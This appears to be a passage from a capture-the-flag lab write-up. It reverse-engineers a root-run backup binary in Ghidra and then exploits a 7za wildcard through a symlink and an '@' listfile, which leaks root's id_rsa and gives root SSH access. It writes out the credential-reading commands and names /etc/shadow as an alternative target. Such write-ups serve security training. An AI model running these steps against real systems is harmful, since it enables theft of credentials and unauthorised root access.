

First, we'll choose where to save our project

To do this, click on "File" , then "New Project", "Non-Shared Project", and choose the path and the name you want to give it

Now we need to import the file we want to analyze

Since we don't have that file, we're going to host it on **port 1234** using `Python3` so we can download it from our machine

```bash
cd /usr/bin
python3 -m http.server 1234
```
And we download it from our machine using `wget`

```bash
wget http://10.129.92.229:1234/usage_management
```

Now that we have the file, let's go back to **Ghidra**

Click on File, then Import File, and select the **usage_management** file





Once inside, in the left section, we can see the functions



Then we select **"backupWebContent"**

And we can see what it does from the inside



From what we can see, the **root** user navigates to the **/var/www/html** directory and runs /usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *

This is a major security flaw because when the **root** user adds the * at the end, it indicates that everything inside **/var/www/html** is being executed

With that in mind, let's see if we have write permissions for the **/var/www/html** directory

```bash
ls -la /var/www/html
```



As we can see, we have write permissions

# Retrieving The Root User's id_rsa

Now, if we don't know what to do, we can use **hacktricks**



Here we can see how to exploit this security flaw to obtain information from a file of our choice, in this case we can target **/etc/shadow** or the **root user's id_rsa file**

But in my case, I'll choose the root user's id_rsa

```bash
ln -s /root/.ssh/id_rsa id_rsa.txt
```

```bash
touch @id_rsa.txt
```



And as we can see here, we've created a **symbolic link** to the root user's id_rsa

Now all we have to do is run the script





Now that we have obtained the root user's id_rsa, all that's left is to tweak it a bit and use it



```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa root@10.129.92.229
```



And finally, we've gained **root access**
